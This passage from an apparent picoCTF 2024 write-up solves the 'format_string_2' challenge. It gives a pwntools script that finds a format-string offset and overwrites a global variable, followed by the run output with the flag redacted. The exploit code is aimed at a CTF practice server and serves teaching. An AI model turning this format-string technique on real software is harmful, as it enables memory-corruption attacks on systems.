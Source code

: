 ```python
io = remote(SERVER, PORT)
io.sendlineafter(b'What do you have to say?\n', payload)
io.recvline()
print(io.recvallS())
io.close()
```

When running the script we get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to rhea.picoctf.net on port 57654: Done
[+] Receiving all data: Done (110B)
[*] Closed connection to rhea.picoctf.net port 57654
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{<REDACTED>}
```

### Get the flag - automated solution

We can also automate the entire process with [pwntools format string tools](https://docs.pwntools.com/en/stable/fmtstr.html)

```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654

exe = context.binary = ELF('./vuln', checksec=False)

target = exe.symbols.sus
goal_value = 0x67616c66

# Set output level (critical, error, warning, info, debug)
context.log_level = "warning"

def exec_fmt(payload):
    p = remote(SERVER, PORT)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {target: goal_value})

io = remote(SERVER, PORT)    
io.sendlineafter(b'What do you have to say?\n', payload)
io.recvline()
print(io.recvallS())
io.close()
```
